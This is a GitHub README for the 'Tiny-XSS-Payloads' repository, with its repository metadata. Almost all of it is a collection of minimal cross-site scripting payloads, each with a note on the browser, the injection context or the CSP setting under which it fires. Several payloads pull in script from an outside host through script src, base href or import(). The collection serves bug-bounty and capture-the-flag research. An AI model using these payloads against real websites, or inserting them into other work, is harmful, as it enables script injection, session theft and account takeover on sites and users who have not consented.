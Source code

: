 ```yaml
---
repo: terjanq/Tiny-XSS-Payloads
url: 'https://github.com/terjanq/Tiny-XSS-Payloads'
homepage: 'https://tinyxss.terjanq.me/'
starredAt: '2025-01-08T06:07:55Z'
createdAt: '2020-07-09T21:45:19Z'
updatedAt: '2025-02-25T15:34:36Z'
language: JavaScript
license: NA
branch: master
stars: 2027
isPublic: true
isTemplate: false
isArchived: false
isFork: false
hasReadMe: true
refreshedAt: '2025-02-25T19:51:18.872Z'
description: >-
  A collection of tiny XSS Payloads that can be used in different contexts.
  https://tinyxss.terjanq.me
tags:
  - bugbounty
  - ctf
  - html
  - javascript
  - payloads
  - xss
---
```


# Tiny-XSS-Payloads
A collection of short XSS payloads that can be used in different contexts.

The DEMO available here: <https://tinyxss.terjanq.me>


## Current Payloads

```html
<!-- Requires a relative script inserted to the DOM after the sink, 
  e.g. <base/href=//Ǌ.₨> ... <script src=/aaa></script> -->
<base/href=//Ǌ.₨>
```

```html
<!-- Only works as reflected XSS -->
<svg/onload=eval(name)>
```

```html
<!-- If you control the URL -->
<svg/onload=eval(`'`+URL)>
```

```html
<!-- If you control the name, but unsafe-eval not enabled -->
<svg/onload=location=name>
```

```html
<!-- In chrome, also works inside innerHTML, even on elements not yet inserted into DOM -->
<svg><svg/onload=eval(name)>
```

```html
<!-- If you control window's name, this payload will work inside innerHTML, even on elements not yet inserted into the DOM -->
<audio/src/onerror=eval(name)>
```

```html
<!-- If you control the URL, this payload will work inside innerHTML, even on elements not yet inserted into the DOM -->
<img/src/onerror=eval(`'`+URL)>
```

```html
<!-- Just a casual script -->
<script/src=//Ǌ.₨></script>
```

```html
<!-- If you control the name of the window -->
<iframe/onload=src=top.name>
```

```html
<!-- If you control the URL -->
<iframe/onload=eval(`'`+URL)>
```

```html
<!-- If number of iframes on the page is constant -->
<iframe/onload=src=top[0].name+/\Ǌ.₨?/>
```

```html
<!-- for Firefox only -->
<iframe/srcdoc="<svg><script/href=//Ǌ.₨ />">
```

```html
<!-- If number of iframes on the page is random -->
<iframe/onload=src=contentWindow.name+/\Ǌ.₨?/>
```

```html
<!-- If unsafe-inline is disabled in CSP and external scripts allowed -->
<iframe/srcdoc="<script/src=//Ǌ.₨></script>">
```

```html
<!-- If inline styles are allowed -->
<style/onload=eval(name)>
```

```html
<!-- If inline styles are allowed and the URL can be controlled -->
<style/onload=eval(`'`+URL)>
```

```html
<!-- If inline styles are blocked -->
<style/onerror=eval(name)>
```

```html
<!-- Uses external script as import, doesn't work in innerHTML -->
<!-- The PoC only works on https and Chrome, because Ǌ.₨ checks for Sec-Fetch-Dest header -->
<svg/onload=import(/\\Ǌ.₨/)>
```

```html
<!-- Uses external script as import,  triggers if inline styles are allowed.
<!-- The PoC only works on https and Chrome, because Ǌ.₨ checks for Sec-Fetch-Dest header -->
<style/onload=import(/\\Ǌ.₨/)>
```

```html
<!-- Uses external script as import -->
<!-- The PoC only works on https and Chrome, because Ǌ.₨ checks for Sec-Fetch-Dest header -->
<iframe/onload=import(/\\Ǌ.₨/)>
```

Deprecated:

```html
<!-- If you control the URL, Safari-only -->
<iframe/onload=write(URL)>
```

```html
<!-- If inline styles are allowed, Safari only -->
<style/onload=write(URL)>
```
